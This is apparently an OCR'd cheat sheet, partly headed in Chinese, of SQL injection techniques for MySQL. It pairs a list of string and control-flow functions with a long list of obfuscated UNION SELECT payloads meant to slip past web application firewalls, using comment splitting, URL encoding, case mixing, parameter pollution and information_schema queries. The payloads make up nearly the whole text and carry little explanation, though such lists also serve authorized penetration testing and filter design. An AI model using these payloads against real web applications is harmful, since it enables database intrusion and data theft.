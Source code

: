 	instr(‘abc’,'a’)
	substring_index(‘ab’,'b’,1)
	#分割字符串
	length(trim(leading ‘a’ FROM ‘abc’))
	length(replace(‘abc’, ‘a’, ”))
	#比较字符串
	strcmp(‘a’,'a’)
	mod(‘a’,'a’)
	find_in_set(‘a’,'a’)
	field(‘a’,'a’)
	count(concat(‘a’,'a’))
	#字符串长度
	length()
	bit_length()
	char_length()
	octet_length()
	bit_count()
	#关键字过滤
	Connected keyword filtering
	(0)union(select(table_name),column_name,…
	0/**/union/*!50000select*/table_name`foo`/**/…
	0%a0union%a0select%09group_concat(table_name)….
	0′union all select all`table_name`foo from`information_schema`. `tables`
	#控制流
	case ‘a’ when ‘a’ then 1 [else 0] end
	case when ‘a’='a’ then 1 [else 0] end
	if(‘a’='a’,1,0)
	ifnull(nullif(‘a’,'a’),1)

###测试向量

	%55nion(%53elect 1,2,3)-- -
	+union+distinctROW+select+
	/**//*!12345UNION SELECT*//**/
	/**/UNION/**//*!50000SELECT*//**/
	/*!50000UniON SeLeCt*/
	+#uNiOn+#sEleCt
	+#1q%0AuNiOn all#qa%0A#%0AsEleCt
	/*!u%6eion*/ /*!se%6cect*/
	+un/**/ion+se/**/lect
	uni%0bon+se%0blect
	%2f**%2funion%2f**%2fselect
	union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
	REVERSE(noinu)+REVERSE(tceles)
	/*--*/union/*--*/select/*--*/
	union (/*!/**/ SeleCT */ 1,2,3)
	/*!union*/+/*!select*/
	union+/*!select*/
	/**//*!union*//**//*!select*//**/
	/*!uNIOn*/ /*!SelECt*/
	+union+distinctROW+select+
	-15+(uNioN)+(sElECt)
	-15+(UnI)(oN)+(SeL)(ecT)+
	id=1+UnIOn/**/SeLect 1,2,3—
	id=1+UNIunionON+SELselectECT 1,2,3—
	id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
	id=1 and (select 1)=(Select 0xAA 1000 more A’s)+UnIoN+SeLeCT 1,2,3—
	id=1+un/**/ion+sel/**/ect+1,2,3--
	id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
	id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
	id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
	id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x
	/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
	/*!union*/+/*!select*/+1,2,3—